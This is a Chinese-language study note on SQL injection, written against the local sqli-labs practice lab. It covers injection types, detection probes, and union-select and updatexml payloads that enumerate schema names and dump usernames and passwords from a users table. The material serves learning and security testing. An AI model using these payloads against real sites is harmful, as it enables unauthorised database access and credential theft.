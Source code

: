 ## SQL 注入

### 分类：

**数据类型：** 数字型 、字符型

**注入手法：** 联合查询、报错型注入、布尔型注入、时间延迟注入、多语句查询注入（堆叠查询）。

### 注入点的判断

**?id=1'	判断注入类型**

![1607915524399](C:\Users\goofiest\AppData\Roaming\Typora\typora-user-images\1607915524399.png)

` right syntax to use near '' LIMIT 0,1' ` 由于我们输入的 id 不在没有在报错信息中显示，所以可以判断它是**数字型**。

![1607915750952](C:\Users\goofiest\AppData\Roaming\Typora\typora-user-images\1607915750952.png)

` right syntax to use near ''1'' LIMIT 0,1' at ` 可以看见输入的 id 在报错信息中，所以可以判断它是**字符型**。



**?id=1 and 1=1** 和 **id=1 and 1=2**	页面是否发生变化，判断页面是否存在布尔类型状态。

**?id=sleep(5)** 	是否有延时。



### 联合查询

&ensp; 由于数据库中的内容会回显到页面中，所以可以采用联合查询进行注入。联合查询就是SQL语法中的`union select` 语句。该语句会同时执行两条`select`语句，生成两张虚拟表，然后把查询到的结果进行拼接。

**步骤：** 

* 判断注入类型。
* 判断注入点
* `order by ` 函数（排序）判断表中字段数。例如：`order by 3 -- -` 
* 具对数据库内容查询 `?id=-1' union select 1,2,database() -- -`

~~~sql
-- 联合查询
?id=1'and 1=1 -- - 
?id=1'order by 3 -- -  #
?id=-1'union select 1,2,3 -- -
?id=-1'union select 1,database(),user() -- -
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" -- -
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users" -- -
?id=-1'union select 1,2,group_concat(password,0x20,username) from security.users -- -
~~~



### 布尔注入

updatexml

~~~sql
http://127.0.0.1/sqli/Less-5/
?id=1' and updatexml(1,concat(0x5e,database(),0x5e),0) -- -
~~~



mid

ascii

substr

ord

regexp

like



### 宽字节注入

http://127.0.0.1/sqli/Less-32/ 






